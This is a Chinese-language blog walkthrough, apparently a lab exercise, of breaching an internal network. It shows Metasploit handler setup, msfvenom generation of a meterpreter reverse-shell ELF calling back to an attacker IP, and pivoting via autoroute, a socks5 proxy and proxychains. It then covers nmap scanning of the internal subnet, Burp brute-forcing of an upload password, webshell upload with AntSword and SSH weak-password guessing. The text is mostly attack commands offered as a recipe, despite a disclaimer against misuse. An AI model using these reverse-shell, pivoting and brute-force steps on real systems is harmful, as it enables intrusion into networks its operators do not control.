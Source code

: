 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CLlO09ZtskM3HdBmc-dQiQ)

![](https://mmbiz.qpic.cn/mmbiz_svg/uHwLXtyH4IXTars0DEAdy9nZcUtFcGrTy3nibexVh7BkBPMPp5nLfNgt67b5GWcgVibZsbUSHhKbtb6Eibh4vBoiaLfySz3fSygp/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/dx4Y70y9Xcs692v9TjnicxJEZft7mP8uWicBRPuXXzZg069MvuoD4NP9L3WJiaoqponicCib5DMjypusYpLvEsR5g11bPZsUtwfjB/640?wx_fmt=svg)

  

  

  

  

声明：本人坚决反对利用文章内容进行恶意攻击行为，一切错误行为必将受到惩罚，绿色网络需要靠我们共同维护，推荐大家在了解技术原理的前提下，更好的维护个人信息安全、企业安全、国家安全。  

  

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_svg/GPyw0pGicibl6FlfJiaNBkMPMFyFOibLIWIcnofJD9HFIEkZM5SEbOlmbksIpNdHnJna42D5LSLYtEA7cbicE6qBeJv0fJ8eeZjfM/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/ZqDaDiccbgkhBmJZvPXtaUAefuaoJCVTKXplxCtc9ibiav0toECE9GgicrEgxdtJOMFHDgLu3CN01gofEcWnI72wNtR2AicveephI/640?wx_fmt=svg)

0x01 **前言**

本‍‍‍‍次所使用的攻击机为 kali linux 系统，攻击过程中涉及到的工具主要有：中国菜刀 / 中国蚂剑，burpsuite，metasploit，MobaXterm，一句话木马，proxychains，nmap 脚本等。攻击的拓扑结构如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZ89j9jRBrUpg4cH9WRQASsbuLH32nJaFcmvl9pNuyK1cCVN3mUkvtTg/640?wx_fmt=png)

0x02 ****反弹 Payload****

攻击机进行监听设置 (注意：监听主机设置需要与生成的 payload 保持一致)：

```
>>> use exploit/multi/handler
>>> set payloads linux/x64/meterpreter_reverse_tcp
>>> set LHOST 192.168.124.15        #监听主机ip地址
>>> set PORT 9999                  #监听主机端口号
>>> exploit -j
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqic15tmJrSricWiah425ibyUH7iacnV3Naa9AoLGGyNpMVGOdXukaOxiaOB8g/640?wx_fmt=png)

生成反弹需要的 payload 文件：

```
>>> msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=IP LPORT =PORT -f elf > shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqhruVIicIDvpV2BPibxO8U59wDOujK3ZWT9e801Erw24XI9n0VbtHaiarw/640?wx_fmt=png)

将生成的文件上传到目标主机，并更改 payload 可执行权限，并执行。

```
>>> chmod 777 shell.elf
>>> ./shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqUgJdvhLf3hbGEBCfh6qjl4Kq7qM6KpGz0rkHk6qrjXwFFVZyutK8TQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqThDqnJYK2b6KIpDb8FsXNCibsKXniaiaqgfMMBo77AWJ0icn1lia7RibDuqw/640?wx_fmt=png)

在攻击端，监听的主机收到目标主机反弹的 shell 权限，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqEPl7OGjhmyQEkNnrw78Twr3Yq4gQ5pW8exU200uHCQMhb3MxiaJyEKQ/640?wx_fmt=png)

0x03 添加 socks5 代理

此时为了能够访问到内网，需要进行添加代理操作。查看当前路由有一个内网段 ip 地址段位 172.17.0.0/24。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqicicpSdZwvbE0e041EzHAibfVqAnF537SvOpeQdL8IT7iaYdO7DmTvINBQ/640?wx_fmt=png)

执行指令添加路由操作。

```
>>> run autoroute -s 172.17.0.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIq1Wia0ThVbCvsjU9NOXzVasCQqhhVm9JQHENtAP0cPG063JyiaCfALXNg/640?wx_fmt=png)

添加 socks5 代理：

```
>>> use auxiliary/server/socks5
>>> run
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqB6HLSN1O95Yaq5b0ta4CPDQ1kza6YByrFD02qucd93YglN4ibbl5UZg/640?wx_fmt=png)

此处应用 proxychains 工具，进行内网探测，使用编辑器在文件 /etc/proxychains.conf 的最后一行加入 socks5 代理的配置信息。

| 

--- snippet ---

[ProxyList]

# add proxy here ...

# meanwile

# defaults set to "tor"

socks5  127.0.0.1 1080

 |

0x04 ******内网主机端口探测******

通过执行代理工具 proxychains，内网 web 服务进行探测，可以发现主机 ip 地址为 172.17.0.4。执行指令如下所示：

```
>>> Proxychains nmap 172.17.0.0/24 -sV  -sT  -Pn  -T 4 -p80
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqX0DE7o8oPAiaic5BASDdazYmtFCk7ljjTJr4G0uSPDRE92a6PJB9FPTQ/640?wx_fmt=png)

0x05 ********内网 web 暴力破解********

此时通过浏览器是不能访问到内网服务器，需要在浏览器配置代理进行访问，配置代理类型选择 socks5，本地端口为 1080。配置好以后，就能通过代理访问内网主机的 web 应用了。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqh0ZibsFafvPMz9O7Nicntdjocdyzq3lt0w78cH1HEk9ibrMca5icxnibZTA/640?wx_fmt=png)

通过浏览页面可发现，为一个文件上传页面，但是上传需要输入口令，方可操作成功。此时考虑可通过 burpsuite 进行拦截后，口令破解。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIq68ILfPrhVE2sAyLGjaicCfmbQic61DLHRlH6ERQpBDcG35Fz0jpOgZrQ/640?wx_fmt=png)

打开 burpsuite 后，需要添加代理，这样才能将拦截到的数据正确发送到目标服务器，配置过程如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqJPfaVkgxGXUvks2os5SFgEjXTjOpqheUd6dzEd6Ov41BJPLVYnV2iaw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqiajEYTGUUldgEtdWIrAOCLOy5hVZAcfSkUHVkTz1hLl15eRicBO2RoaA/640?wx_fmt=png)

对拦截的数据更改口令字段，添加常用字典，此处用的字典为：top1000.txt。查看破解成功字段的真实口令为 password。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqopoGAsSZwf4VM1IDBw7rc4z1wqGOPYZx7eCnM2W55QLU84XRibHbqTA/640?wx_fmt=png)

0x06 **内网上传 webshell**

常用的菜刀，Cknife 等工具并不存在代理功能，此处使用中国蚁剑工具进行连接，配置蚁剑代理如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqCgs66Z7VicsYdbeFxAhruIhSyibnRB6uCl96uQlrP3CQsibqpib4TJ4faw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqBiaogJtM7nMUp7WjwQcGBOtS7bVCMEL8JSoAIMaoxouHibicEq45iaU5jg/640?wx_fmt=png)

成功连接到内网的 shell 后，访问目标系统不同目录

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqTX6EicYCSwnS7UIxwiaibicgzYY9a1zH7fMFrbcnaLooXkoicqwic5xr6EpQ/640?wx_fmt=png)

0x07 远程连接内网主机 SSH 服务

对内网的 22 端口进行探测，发现主机 172.17.0.8 开放 22 端口，并对该内网主机进行 ssh 弱口令猜解。

```
>>> proxychains nmap -sV -t -Pn -p22 127.17.0.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIq4fC4WECUg9D6jiaEPjLc7BkyL2hYKtPorUib9XQiaSKXuyRN340UwztKQ/640?wx_fmt=png)

通过第三方工具 MobaXterm 添加代理后，远程连接到内网主机，具体操作过程如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqibWcju593AiaDyMFRx0Jku0HWwAHFkLibsluh1BclJQMbJ4cIufmPeichg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmQibmCISsCuGqjiaImQSJkIqYLicbNVyu6leD1UA3ANwFRhDmIrh1LB4RyRBvg8gomibMBjSFcWDQoAg/640?wx_fmt=png)

**【推荐书籍】**